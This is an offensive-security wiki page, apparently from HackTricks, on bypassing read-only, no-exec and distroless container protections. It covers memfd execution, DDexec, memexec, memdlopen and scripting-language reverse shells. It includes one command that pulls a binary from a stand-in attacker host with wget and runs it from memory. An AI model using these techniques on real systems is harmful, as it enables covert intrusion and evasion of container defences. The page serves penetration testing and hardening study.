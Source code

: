 # Bypass FS protections: read-only / no-exec / Distroless

{{#include /banners/hacktricks-training.md}}




## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

- [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
  name: alpine-pod
spec:
  containers:
  - name: alpine
    image: alpine
    securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

> [!WARNING]
> From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

> [!WARNING]
> This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.
>
> Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

> [!TIP]
> **DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.

```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

For more information about this technique check the Github or:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is the natural next step of DDexec. It's a **DDexec shellcode demonised**, so every time that you want to **run a different binary** you don't need to relaunch DDexec, you can just run memexec shellcode via the DDexec technique and then **communicate with this deamon to pass new binaries to load and run**.

You can find an example on how to use **memexec to execute binaries from a PHP reverse shell** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

With a similar purpose to DDexec, [**memdlopen**](https://github.com/arget13/memdlopen) technique allows an **easier way to load binaries** in memory to later execute them. It could allow even to load binaries with dependencies.

## Distroless Bypass

### What is distroless

Distroless containers contain only the **bare minimum components necessary to run a specific application or service**, such as libraries and runtime dependencies, but exclude larger components like a package manager, shell, or system utilities.

The goal of distroless containers is to **reduce the attack surface of containers by eliminating unnecessary components** and minimising the number of vulnerabilities that can be exploited.

### Reverse Shell

In a distroless container you might **not even find `sh` or `bash`** to get a regular shell. You won't also find binaries such as `ls`, `whoami`, `id`... everything that you usually run in a system.

> [!WARNING]
> Therefore, you **won't** be able to get a **reverse shell** or **enumerate** the system as you usually do.

However, if the compromised container is running for example a flask web, then python is installed, and therefore you can grab a **Python reverse shell**. If it's running node, you can grab a Node rev shell, and the same with mostly any **scripting language**.

> [!TIP]
> Using the scripting language you could **enumerate the system** using the language capabilities.

If there is **no `read-only/no-exec`** protections you could abuse your reverse shell to **write in the file system your binaries** and **execute** them.

> [!TIP]
> However, in this kind of containers these protections will usually exist, but you could use the **previous memory execution techniques to bypass them**.

You can find **examples** on how to **exploit some RCE vulnerabilities** to get scripting languages **reverse shells** and execute binaries from memory in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).


{{#include ../../../banners/hacktricks-training.md}}


